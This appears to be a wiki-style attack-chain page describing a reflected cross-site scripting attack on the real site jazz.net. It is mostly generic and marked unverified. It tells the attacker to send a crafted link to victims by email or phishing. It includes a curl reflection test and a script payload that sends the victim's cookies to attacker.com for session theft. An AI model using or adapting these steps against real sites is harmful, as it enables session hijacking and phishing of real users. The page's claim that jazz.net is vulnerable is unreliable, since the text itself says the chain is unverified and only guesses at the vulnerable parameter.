

# Reflected XSS on jazz.net for Malicious Script Injection

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)
- [[Burp Suite]] for advanced testing (optional)

### Target Environment

- Web platform
- Accessible via public internet
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials needed
- Victim must click a crafted malicious link
- Attacker needs to craft and distribute the payload

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-on-Web-Application]]

**Objective**: Inject a malicious JavaScript payload into a reflected input field on jazz.net to execute arbitrary code in the victim's browser.

**Instructions**: Craft a URL with a malicious payload targeting the vulnerable parameter on jazz.net. For example, use a search or error page that reflects user input without sanitization. Send the link to the victim via email or phishing.

Use [[commands/curl-xss-test]] to verify the reflection:

```bash
curl "https://jazz.net/search?q=<script>alert('XSS')</script>" -v
```

If reflected, proceed to execute a payload for session theft, such as stealing cookies:

```bash
# In browser or via crafted link: https://jazz.net/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Expected Output**: The script executes in the browser, displaying an alert or sending data to attacker's server.

**Success Indicators**:
- Payload reflected without encoding in the response
- JavaScript executes (e.g., alert pops up)
- Sensitive data like cookies exfiltrated to attacker's domain

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious script via reflected input
2. Execution of JavaScript in victim's browser context
3. Potential for session hijacking or phishing attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
